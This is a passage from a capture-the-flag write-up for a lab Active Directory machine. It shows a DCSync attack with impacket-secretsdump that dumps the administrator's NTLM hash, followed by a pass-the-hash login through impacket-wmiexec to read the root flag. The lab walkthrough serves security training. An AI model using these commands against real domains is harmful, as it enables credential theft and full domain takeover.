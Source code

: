 It is not possible to remotely connect as a machine account, but we can perform a **DCSync attack** to dump the domain administrator NTLM hash.

```bash
KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache' impacket-secretsdump DC1.delegate.vl -k -no-pass -just-dc-user administrator -just-dc-ntlm
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:<REDACTED>:::
[*] Cleaning up...
```

With the administrator hash in our hands, let’s connect to the DC and read the root flag. GGs!

```
impacket-wmiexec delegate.vl/administrator@DC1.delegate.vl -hashes :<REDACTED>

C:\>whoami
delegate\administrator

C:\>hostname
DC1

C:\>type c:\users\administrator\desktop\root.txt
VL{<REDACTED>}
```
